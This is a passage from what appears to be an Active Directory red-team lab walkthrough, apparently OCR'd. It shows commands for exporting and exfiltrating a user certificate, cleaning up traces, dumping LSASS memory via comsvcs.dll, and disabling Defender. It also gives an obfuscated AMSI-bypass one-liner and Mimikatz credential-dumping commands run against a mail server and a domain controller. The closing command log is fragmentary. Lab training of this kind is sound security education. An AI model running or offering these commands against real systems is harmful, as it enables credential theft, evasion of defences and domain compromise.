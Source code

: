 We can now export this certificate in a PFX format as follows.

```
C:\Users\pawadmin>certutil -exportpfx -p P@ssw0rd1! 770000002b1e67d3cc43fe175100010000002b C:\Users\pawadmin\Downloads\pawadmin.pfx

[SNIP]

CertUtil: -exportPFX command completed successfully.
```

Disconnect from the winrs session and exfiltrate the certificate back onto our student VM. Be sure to perform a clean-up after.

```
C:\Users\pawadmin>exit

C:\AD\Tools> copy \\us-jump3.US.TECHCORP.LOCAL\c$\Users\pawadmin\Downloads\pawadmin.pfx C:\AD\Tools\

[SNIP]

C:\AD\Tools> del \\us-jump3.US.TECHCORP.LOCAL\c$\Users\pawadmin\Downloads\*
```

We will use this certificate later.

**Credentials Extraction – Generates events in MDE**

Let's look at some of the steps that will be detected by MDE.

⭐ We can use the following command to extract credentials from LSASS using `rundll32.exe`. Both `rundll32.exe` and `comsvcs.dll` are Microsoft signed. We are creating a memory dump of the LSASS process and we will parse it offline on the student VM.

⚠️ Since the `comsvcs.dll` based memory dump is detected by Defender we will need to disable Defender by executing `Set-MpPreference -DisableRealtimeMonitoring $true` command.
Note that because of MDE `Set-MpPreference` would fail.

Run the below commands from a process running as `jumpone`.

Note that '720' in the below command is the PID of `lsass.exe` process.

```
PS C:\Windows\system32> winrs -r:us-jump3 cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\jumpone$>
🚀

C:\Users\jumpone$>set u

USERDNSDOMAIN=US.TECHCORP.LOCAL
USERDOMAIN=US
USERDOMAIN_ROAMINGPROFILE=US
USERNAME=jumpone$ 👤
USERPROFILE=C:\Users\jumpone$
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'